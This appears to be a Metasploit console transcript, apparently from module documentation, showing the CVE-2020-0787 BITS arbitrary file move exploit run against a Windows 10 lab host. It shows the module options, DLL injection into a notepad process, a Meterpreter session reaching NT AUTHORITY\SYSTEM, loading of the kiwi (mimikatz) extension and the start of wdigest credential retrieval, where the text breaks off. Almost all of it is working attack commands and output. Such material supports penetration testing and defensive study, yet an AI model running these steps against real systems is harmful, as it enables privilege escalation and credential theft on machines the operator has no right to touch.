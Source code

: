
Exploit target:

   Id  Name
   --  ----
   0   Windows DLL Dropper


msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set SESSIOn 2
SESSIOn => 2
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set JOB_WAIT_TIME 40
JOB_WAIT_TIME => 40
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > exploit

[*] Step #1: Checking target environment...
[*] Step #2: Generating the malicious DLL...
[*] Payload DLL is 94208 bytes long
[*] Step #3: Loading the exploit DLL to run the main exploit...
[*] Launching notepad to host the exploit...
[+] Process 7344 launched.
[*] Injecting DLL into 7344...
[*] DLL injected. Executing injected DLL...
[*] Sleeping for 40 seconds to allow the exploit to run...
[*] Started bind TCP handler against 172.26.22.128:9988
[*] Sending stage (201283 bytes) to 172.26.22.128
[*] Meterpreter session 3 opened (0.0.0.0:0 -> 172.26.22.128:9988) at 2020-06-10 12:03:39 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-NRCNIDN
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_wdigest
[+] Running as SYSTEM
[*] Retrieving wdigest credentials
wdigest credentials
===================
